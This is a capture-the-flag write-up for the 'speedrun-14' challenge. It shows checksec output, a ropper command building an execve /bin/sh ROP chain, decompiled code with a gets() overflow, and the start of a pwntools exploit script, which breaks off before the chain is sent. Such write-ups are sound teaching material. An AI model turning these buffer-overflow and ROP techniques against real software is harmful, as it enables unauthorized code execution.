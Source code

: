 
## speedrun-14

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, but everything else (mostly)--this is ROP, and the solution I used in [speedrun-13](#speedrun-13) could be used here (x86_64 version, e.g. [roprop](https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop)), BUT.... this is statically linked:

```bash
$ file chall_14
chall_14: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked,
for GNU/Linux 3.2.0, BuildID[sha1]=2936c7ad85f602a3701fef5df2a870452f6d3499, not stripped
```

IOW, this is loaded with ROP gadgets, getting a shell is easy, just run:

```
ropper --file chall_14 --chain "execve cmd=/bin/sh" --badbytes 0a
```

and send that to the return address on that stack.

### Decompile with Ghidra

```c
void main(void)
{
  char local_68 [64];
  char local_28 [32];
  
  puts("You can hear the sound of a thousand...");
  fgets(local_28,0x14,(FILE *)stdin);
  gets(local_68);
  return;
}
```

So, yeah, just send `0x68` bytes of whatever, followed by your ROP chain.

BTW, there are a bunch of different ways to solve this.  This was for me the lazy fast way.  All script-kiddie.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_14')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.2020.sunshinectf.org', 30014)

#ropper --file chall_14 --chain "execve cmd=/bin/sh" --badbytes 0a
```